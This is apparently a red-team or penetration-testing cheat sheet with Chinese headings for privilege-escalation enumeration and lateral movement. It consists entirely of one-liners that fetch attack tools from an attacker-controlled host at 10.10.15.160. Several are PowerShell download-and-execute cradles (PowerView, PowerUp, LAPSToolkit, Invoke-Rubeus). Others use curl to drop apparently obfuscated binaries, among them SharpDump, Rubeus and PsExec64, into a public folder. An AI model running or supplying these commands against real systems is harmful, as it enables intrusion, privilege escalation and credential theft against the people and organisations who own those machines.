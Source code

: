 __PowerView.ps1__

```
iex ((new-object net.webclient).downloadstring('http://10.10.15.160/tools/ps1/PowerView.ps1')) 
```


> 提权枚举

__Seatbelt__
```
curl http://10.10.15.160/obf/Seatbelt.exe -o C:\Users\Public\Seatbelt.exe
```

__SharpUp__

```
curl http://10.10.15.160/obf/SharpUp.exe -o C:\Users\Public\SharpUp.exe
```

__winPEAS__
```
curl http://10.10.15.160/obf/winPEAS.exe -o C:\Users\Public\winPEAS.exe
```

__HostRecon.ps1__

```
iex ((new-object net.webclient).downloadstring('http://10.10.15.160/tools/ps1/HostRecon.ps1'))
```

__LAPSToolkit.ps1__

```
iex ((new-object net.webclient).downloadstring('http://10.10.15.160/tools/ps1/LAPSToolkit.ps1')) 
```

__PowerUp.ps1__

```
iex ((new-object net.webclient).downloadstring('http://10.10.15.160/tools/ps1/PowerUp.ps1')) 
```

> 横向移动

__Rubeus__

```
curl http://10.10.15.160/obf/Rubeus.exe -o C:\Users\Public\Rubeus.exe

iex ((new-object net.webclient).downloadstring('http://10.10.15.160/tools/ps1/Invoke-Rubeus.ps1')) 
Invoke-Rubeus -Command "xxxxxx"
```

__SharpDump.exe__

```
curl http://10.10.15.160/obf/SharpDump.exe -o C:\Users\Public\SharpDump.exe
```

__PsExec64.exe__

```
curl http://10.10.15.160/tools/PsExec64.exe -o C:\Users\Public\PsExec64.exe
```
